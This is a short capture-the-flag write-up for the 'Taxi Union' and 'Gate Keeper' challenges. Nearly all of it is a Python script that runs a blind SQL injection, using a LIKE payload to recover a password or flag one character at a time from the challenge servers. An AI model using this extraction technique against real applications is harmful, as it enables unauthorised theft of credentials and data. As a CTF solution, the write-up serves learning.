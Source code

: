 # Taxi Union

Author: [roerohan](https://github.com/roerohan)

## Exploit

SQL Injection. This solution also works for the [Gate Keeper](../gate%20keeper) challenge.

```py
import requests
import string

flag = ''

print(flag)

domain = string.ascii_lowercase + string.ascii_uppercase + string.digits + '_}'

f = 0

challenge = "gate keeper"
url = ""
check = ""
key = ""
column = ""
if challenge == "taxi union":
    url = 'http://extremely.uniquename.xyz:2052/'
    check = "TN-06-AP-9879"
    key = 'lisence_plate'
    column = "location"
elif challenge == 'gate keeper':
    url = 'http://extremely.uniquename.xyz:2082/'
    check = "The flag for the CTF is the password you entered.(If you havent cheated that is)"
    key = 'password'
    column = "password"

print("URL", url)

while True:
    for char in domain:
        payload = "' or {} like '{}%'; --".format(column, flag + char)
        print(payload)

        r = requests.post(url, data={key: payload})

        if (check in r.text):
            flag = flag + char
            print("Success " + flag)

            break
```